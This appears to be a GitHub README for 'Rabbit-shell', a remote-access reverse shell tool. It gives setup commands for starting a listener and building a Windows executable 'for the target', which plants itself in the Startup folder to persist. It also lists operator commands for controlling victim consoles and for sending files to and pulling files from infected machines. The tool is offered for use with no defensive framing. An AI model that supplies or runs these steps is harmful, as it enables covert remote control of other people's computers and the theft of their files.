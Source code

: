 # Rabbit-shell

###### Rabbit shell reverse shell tool.





##  Installation.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install -r requirements.txt
```

###### The go to tool file is rabbit.py.





## Run server and start listening.

```bash
python rabbit.py --server -host 192.168.0.111 -port 9999
```

> - --server is args container
> - -host is server or device ip address
> - -port is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.



## Generate exe for the target.

```bash
python rabbit.py --client -host 192.168.0.111 -port 9999
```

> - --client is args container
> - -host is server or device ip address
> - -port is wich port you'll be listening to

###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3

